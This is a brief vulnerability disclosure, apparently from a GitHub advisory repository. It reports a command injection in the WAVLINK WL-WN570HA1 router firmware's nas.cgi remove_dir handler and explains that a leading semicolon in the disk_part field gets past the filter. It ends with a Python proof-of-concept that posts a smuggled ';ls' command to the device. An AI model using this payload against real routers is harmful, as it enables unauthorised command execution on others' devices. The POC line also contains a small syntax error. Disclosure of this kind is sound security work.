

# command injection

## WAVLINK_WL_WN570HA1

version: 20220621

## Description:

There is a command injection in nas.cgi/remove_dir

## Source:

you may download it from : https://www.wavlink.com/en_us/firmware/details/762dc36209.html

## Analyse:




get value from disk_part

and check the ';', but if ';' is in the first of string, bypass and cause command injection

## POC
```
url = "http://192.168.0.1/cgi-bin/nas.cgi"
payload = ';ls > /tmp/1  ' + '\n'

r = requests.post(url, data={ 'page':'remove_dir', 'disk_part': + payload})
``` 
